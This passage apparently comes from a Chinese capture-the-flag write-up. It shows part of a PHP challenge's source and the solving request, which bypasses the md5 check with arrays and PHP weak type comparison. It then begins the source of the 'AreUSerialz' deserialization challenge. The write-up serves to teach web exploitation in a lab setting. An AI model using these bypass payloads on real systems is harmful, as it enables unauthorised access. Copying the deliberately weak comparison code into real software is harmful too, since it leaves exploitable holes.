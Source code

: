 ```php
                     die('By Retr_0');
                 }
                 else
                 {
                     echo "can you think twice??";
                 }
            }
            else{
                echo 'You can not get it !';
            }

        }
        else{
            die('only one way to get the flag');
        }
}
    else {
        echo "You are not a real hacker!";
    }
}
else{
    die('Please input first');
}
}Please input first
```

md5 数组绕过和弱类型转换

```
http://f1edb72b-630a-48cf-bab2-ee13086b4ee5.node4.buuoj.cn:81/?gg[]=123&id[]=456

post: passwd=1234567a
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208241813346.png)

## [网鼎杯 2020 青龙组]AreUSerialz

```php
<?php

include("flag.php");

highlight_file(__FILE__);

class FileHandler {

    protected $op;
    protected $filename;
    protected $content;

    function __construct() {
        $op = "1";
        $filename = "/tmp/tmpfile";
        $content = "Hello World!";
        $this->process();
    }

    public function process() {
        if($this->op == "1") {
            $this->write();
        } else if($this->op == "2") {
            $res = $this->read();
            $this->output($res);
```